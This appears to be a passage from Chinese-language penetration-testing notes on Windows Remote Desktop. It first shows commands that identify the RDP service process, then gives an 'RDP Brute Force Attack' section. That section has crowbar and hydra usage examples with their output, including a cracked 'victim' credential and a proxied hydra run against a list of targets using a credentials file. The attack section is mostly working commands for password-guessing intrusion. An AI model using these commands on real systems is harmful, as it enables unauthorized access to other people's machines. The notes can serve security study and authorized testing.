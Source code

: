 通过查询 3389 端口的网络连接或服务详情都能查看到服务的进程号：

```console
PS C:\Windows\System32> netstat -ano | findstr '3389'
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       2272
  TCP    [::]:3389              [::]:0                 LISTENING       2272
  UDP    0.0.0.0:3389           *:*                                    2272
  UDP    [::]:3389              *:*                                    2272

PS C:\Windows\System32> tasklist /svc | findstr 'TermService'
svchost.exe                   2272 TermService

PS C:\Windows\System32> cmd /c 'sc queryex TermService'

SERVICE_NAME: TermService
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 2272
        FLAGS              :

PS C:\Windows\System32> tasklist /M:rdpcorets.dll

映像名称                       PID 模块
========================= ======== ============================================
svchost.exe                   2272 rdpcorets.dll
```

## RDP Brute Force Attack

[crowbar](https://github.com/galkan/crowbar) 使用示例：

```console
root@kali:~# crowbar -b rdp -s 192.168.86.61/32 -u victim -C /root/words.txt -n 1
2017-10-10 14:59:55 START
2017-10-10 14:59:55 Crowbar v0.3.5-dev
2017-10-10 14:59:55 Trying 192.168.86.61:3389
2017-10-10 15:00:08 RDP-SUCCESS : 192.168.86.61:3389 - victim:s3cr3t
2017-10-10 15:00:08 STOP
```

[hydra](https://github.com/vanhauser-thc/thc-hydra) 使用示例：

```console
root@kali:~# cat ./user_passwd.txt
huangmin:8I5VZpg4Mf
zhangrong:cHY716Zauf
...

root@kali:~# cat ./targets.txt
172.22.14.46:3389
...

root@kali:~# proxychains4 -q hydra -C ./user_passwd.txt -M ./targets.txt rdp -f
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-04 23:22:47
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
```